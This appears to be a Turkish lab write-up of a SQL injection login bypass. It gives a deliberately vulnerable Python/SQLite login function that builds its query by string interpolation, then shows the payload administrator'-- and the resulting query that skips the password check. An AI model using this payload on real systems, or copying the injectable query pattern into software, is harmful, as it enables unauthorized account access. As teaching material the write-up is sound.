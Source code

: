 Buradaki programın giriş kontrolü için genel olarak şöyle bir yapı kurduğunu ve buna göre hareket ettiğini düşünebiliriz. Buradaki yapıya göre gelen username ve password değerleri SQL sorgusuna yerleştirilerek doğrudan kontrol edilmektedir. Ancak biz username alanına “administrator’—” ifadesini girdiğimizde kalan kısmın hiçbir önemi kalmaz ve ismi “administrator” olan kişinin parolası doğru olmasa bile girişi gerçekleştirilmiş olur.

```python
import sqlite3

def login(username, password):
    # SQLite veritabanına bağlan
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()

    # Kullanıcı adı ve şifreyi kullanarak SQL sorgusunu oluştur
    query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"

    # SQL sorgusunu çalıştır
    cursor.execute(query)

    # Sonuçları al
    result = cursor.fetchone()

    # Bağlantıyı kapat
    conn.close()

    # Sonucu kontrol et ve giriş yap
    if result:
        print("Giriş Başarılı")
    else:
        print("Giriş Başarısız")

# Kullanıcıdan giriş bilgilerini al
username = input("Kullanıcı Adı: ")

# Güvenlik açığını kullanarak giriş yap
login("administrator'--", "herhangibirşifre")
```

Dolayısıyla girdiğimiz ifade ile SQL sorgumuz şu şekilde olacağı için kalan kısmın herhangi bir önemli kalmaz ve parola yanlış olsa bile giriş işlemi yapılır. Burada verdiğimiz ilk ‘ işareti önceki kısmı kapatmış olur, kalan — işareti ise diğer kısmı command out eder yani yorum satırı olarak düşünebilirsiniz.

```python
SELECT * FROM users WHERE username='administrator'--' AND password='herhangibirşifre'
```

Lab çözüldü…

